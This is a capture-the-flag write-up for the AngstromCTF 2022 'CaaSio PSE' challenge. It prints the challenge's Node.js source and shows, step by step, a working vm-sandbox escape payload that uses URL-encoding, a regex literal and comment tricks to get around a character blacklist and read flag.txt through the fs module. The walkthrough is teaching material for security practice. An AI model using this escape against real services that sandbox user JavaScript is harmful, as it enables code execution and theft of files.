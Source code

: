 ```yaml
---
title: "AngstromCTF 2022 - Caasio PSE"
author: "mtiennnnn"
tags: js misc
---
```


# Description
This is a challenge about _escape js vm_ in AnstromCTF 2022.

![image](https://user-images.githubusercontent.com/75429369/169534308-b7189ea9-8d48-49c4-b629-78564ee942f8.png)

# Solution

Read out the description and we'll know that we have to escape something _**jsjails**_, let's connect to the _**nc**_ !

![image](https://user-images.githubusercontent.com/75429369/169534898-d96539eb-e365-4290-82be-63e288d63ec5.png)

We can figure out that the program will wait the user to input a calculation and then it will give the result.
At this point, we've already known what we have to do is escape the js vm, after researching for solution, previous write up, .... I've made a payload and test it out:

![image](https://user-images.githubusercontent.com/75429369/169539477-568f9572-9e53-4860-9007-e9f633f06ded.png)

Hmmm, it's not like the first test when we only gave it a calculation, maybe the program has blocked some characters. Let's read the source:

```js
#!/usr/local/bin/node

// flag in ./flag.txt

const vm = require("vm");
const readline = require("readline");

const interface = readline.createInterface({
    input: process.stdin,
    output: process.stdout,
});

interface.question(
    "Welcome to CaaSio: Please Stop Edition! Enter your calculation:\n",
    function (input) {
        interface.close();
        if (
            input.length < 215 &&
            /^[\x20-\x7e]+$/.test(input) &&
            !/[.\[\]{}\s;`'"\\_<>?:]/.test(input) &&
            !input.toLowerCase().includes("import")
        ) {
            try {
                const val = vm.runInNewContext(input, {});
                console.log("Result:");
                console.log(val);
                console.log(
                    "See, isn't the calculator so much nicer when you're not trying to hack it?"
                );
            } catch (e) {
                console.log("your tried");
            }
        } else {
            console.log(
                "Third time really is the charm! I've finally created an unhackable system!"
            );
        }
    }
);
```

Like I said, it has blacklist filtered some characters such as: dot, brackets, backslash, underscore, greater,...

Looks like it has filtered all the special characters but no, the percent "%" hasn't. So we can easily bypass this regex by using urlencode, remember to put the payload into _**decodeURIComponent**_ and wrap it into _**eval**_ to evaluate:

```js
eval(decodeURIComponent(this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()))
```

![image](https://user-images.githubusercontent.com/75429369/169539910-cbec5b74-8ac9-4d92-ab8d-4e5da2211feb.png)

I've thought this is it but it didn't... Maybe something wrong with the string that made the command didn't work.

I was in the deadlock for like 4-5 hours until I read the source again and realised that the forward slash "/" hasn't filtered. We can use it as a regex to convert it into a string, just add "/" at the start and the end of the payload:

```js
eval(decodeURIComponent(/this%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()/))
```
![image](https://user-images.githubusercontent.com/75429369/169540893-a87ab025-ee63-424b-9dd2-81ee1460c895.png)

WHAT, it didn't work but at least we have a little sparkle. It done parsed the regex into string, but it didn't evaluate because it wasn't a valid expression. 

Now let me do a trick, I just add another forward slashes at the first and the end of the payload again to comment it out, then use a line break to seperate the command, so we'll have our payload worked like a charm:

```js
eval(decodeURIComponent(/%2F%0Athis%2Econstructor%2Econstructor(%22return%20this%2Eprocess%2EmainModule%2Erequire(%27fs%27)%2EreadFileSync(%27flag%2Etxt%27)%22)()%2F/))
```

It'll become this:

```js
eval(// commented so not evaled
this.constructor.constructor("return this.process.mainModule.require('fs').readFileSync('flag.txt')")() //) commented so not evaled
```
![image](https://user-images.githubusercontent.com/75429369/169543579-e158e4a9-7f6c-42aa-8244-71ba0e584980.png)

Take the buffer and decode by hex and we'll get the flag yay

```
actf{omg_js_is_like_so_quirky_haha}
```
Nice challenge after all.

Thank you for reading !!!

_The End_
